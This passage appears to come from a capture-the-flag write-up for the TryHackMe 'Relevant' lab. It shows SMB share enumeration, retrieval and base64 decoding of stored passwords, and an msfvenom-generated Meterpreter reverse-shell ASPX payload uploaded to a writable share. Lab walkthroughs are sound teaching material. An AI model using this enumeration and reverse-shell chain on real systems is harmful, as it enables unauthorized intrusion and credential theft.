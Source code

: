 ```
| smb2-time:
|   date: 2020-10-14T19:34:24
|_  start_date: 2020-10-14T19:29:46

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 211.45 seconds
```

```
kali@kali:~/CTFs/tryhackme/Relevant$ smbclient -L //10.10.9.11
Enter WORKGROUP\kali's password:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        nt4wrksv        Disk
SMB1 disabled -- no workgroup available
kali@kali:~/CTFs/tryhackme/Relevant$ smbclient //10.10.9.11/nt4wrksv
Enter WORKGROUP\kali's password:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat Jul 25 23:46:04 2020
  ..                                  D        0  Sat Jul 25 23:46:04 2020
  passwords.txt                       A       98  Sat Jul 25 17:15:33 2020

                7735807 blocks of size 4096. 4950835 blocks available
smb: \> get passwords.txt
getting file \passwords.txt of size 98 as passwords.txt (0.6 KiloBytes/sec) (average 0.6 KiloBytes/sec)
smb: \> exit
kali@kali:~/CTFs/tryhackme/Relevant$ cat passwords.txt
[User Passwords - Encoded]
Qm9iIC0gIVBAJCRXMHJEITEyMw==
QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk

kali@kali:~/CTFs/tryhackme/Relevant$ echo "Qm9iIC0gIVBAJCRXMHJEITEyMw==" | base64 -d
Bob - !P@$$W0rD!123

kali@kali:~/CTFs/tryhackme/Relevant$ echo "QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk" | base64 -d
Bill - Juw4nnaM4n420696969!$$$
```

`Bob:!P@$$W0rD!123`

`Bill:Juw4nnaM4n420696969!$$$`

```
kali@kali:~/CTFs/tryhackme/Relevant$ msfvenom -p windows/x64/meterpreter_reverse_tcp lhost=10.8.106.222 lport=4444 -f aspx -o shell.aspx
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 201283 bytes
Final size of aspx file: 1015556 bytes
Saved as: shell.aspx
kali@kali:~/CTFs/tryhackme/Relevant$ smbclient //msfvenom -p windows/x64/meterpreter_reverse_tcp lhost=10.8.50.72 lport=4444 -f aspx -o shell.aspx^C
kali@kali:~/CTFs/tryhackme/Relevant$ smbclient //10.10.9.11/nt4wrksv
Enter WORKGROUP\kali's password:
Try "help" to get a list of possible commands.
smb: \> put shell.aspx
putting file shell.aspx as \shell.aspx (798.5 kb/s) (average 798.5 kb/s)
```